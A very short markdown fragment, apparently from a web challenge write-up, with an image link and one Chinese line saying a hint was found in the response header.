  

- 发现响应头有提示。